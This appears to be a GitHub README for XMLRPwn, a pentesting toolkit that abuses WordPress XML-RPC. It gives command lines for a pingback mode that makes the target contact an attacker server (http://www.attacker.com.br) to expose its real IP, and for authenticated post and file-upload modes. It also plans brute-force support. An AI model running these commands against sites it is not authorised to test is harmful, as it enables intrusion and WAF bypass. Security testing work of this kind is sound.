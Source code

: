 # XMLRPwn
Wordpress XMLRPC toolkit for pentesters

## About

> This script is all about exploiting some native functions from Wordpress XML-RPC script.

## Installation

**pip3 install -r requirements.txt**

> after pip, just run script for help

**python3 xmlrpwn.py -h**

## Modes
> There is 3 currently modes available:

**PINGBACK**:
Try to send a pingback request to attacker's web server, useful to view true IP from application (bypass some WAF)

Ex: open a webserver ``python -m http.server 80``

``python3 xmlrpwn.py --url https://www.site.com/xmlrpc.php --mode pingback -v https://www.site.com.br/blog/example-post/1 -a http://www.attacker.com.br``

**POST**:
Try to post some blogpost example to Wordpress (username and password required)

Ex: ``python3 xmlrpwn.py -i 1 -u wordpress -p 'Password123' --url https://www.site.com/xmlrpc.php --mode post``

**UPLOAD**:
Try to upload a file to Wordpress (username and password required)

Ex: ``python3 xmlrpwn.py -i 1 -u wordpressadmin -p 'Password123' -f phpinfo.php --url https://www.site.com/xmlrpc.php --mode upload``

PS: File to upload must be on script directory.
## TODO
- Integrate Brute-force.
